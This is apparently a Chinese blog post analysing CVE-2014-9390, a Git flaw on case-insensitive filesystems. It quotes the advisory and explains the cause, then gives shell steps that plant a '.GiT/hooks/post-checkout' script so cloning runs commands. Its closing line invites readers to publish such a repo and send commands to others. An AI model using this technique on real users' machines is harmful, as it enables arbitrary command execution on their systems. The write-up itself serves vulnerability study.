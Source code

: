 ```yaml
---
category:	Hacking
layout:		post
title:		Git客户端命令执行漏洞（CVE-2014-9390）简单分析
desc:		今日看到有这个漏洞的介绍，简单看了下，发现漏洞原因以及利用很简单，记记记!
tags:		[cve-2014-9390,git vul,git command execute]
---
```

#### 参考资料
* [https://github.com/blog/1938-git-client-vulnerability-announced](https://github.com/blog/1938-git-client-vulnerability-announced)    
* [http://www.secpulse.com/archives/3420.html](http://www.secpulse.com/archives/3420.html)

#### 漏洞成因
	The vulnerability concerns Git and Git-compatible clients that access Git repositories in a case-insensitive or case-normalizing filesystem. An attacker can craft a malicious Git tree that will cause Git to overwrite its own .git/config file when cloning or checking out a repository, leading to arbitrary command execution in the client machine. Git clients running on OS X (HFS+) or any version of Microsoft Windows (NTFS, FAT) are exploitable through this vulnerability. Linux clients are not affected if they run in a case-sensitive filesystem.

以上是原文，如果你E文也不好，那就参考我的理解：
`windows`和`osx`使用的文件系统(`NTFS`、`FAT`)不区分文件名的大小写，而`Linux`则区分。根据这个特性可以在`Linux`下创建一个大小写区别的`.git`文件夹，进而覆盖`.git`的配置文件，从而导致任意命令执行。

#### 测试例子
打开[http://gitcasefail.googlecode.com/svn/trunk/](http://gitcasefail.googlecode.com/svn/trunk/)这个谷歌代码仓库，可以看到有一个`.git`和一个`.Git`目录，关键是`.Git`这个目录，在里面的`hooks`目录里面有个`post-checkout`文件，这个就是导致命令执行的文件。
然后我们直接通过以下命令测试，如果命令执行则说明漏洞存在：
[code:bash:edoc]
git clone http://gitcasefail.googlecode.com/svn/trunk/repo/ 
[codend]

#### 漏洞利用
我们进入`Linux`系统，然后初始化一个`git`目录，通过'ls -al'可以看到有`.git`目录，然后呢，直接创建`.gIt`文件夹并创建利用脚本：
[code:bash:edoc]
mkdir .GiT
cd .GiT
mkdir hooks
cd hooks
touch post-checkout
echo whoami>post-checkout
[codend]
然后发布代码，测试成功后即可发命令给对方进行调戏了～～
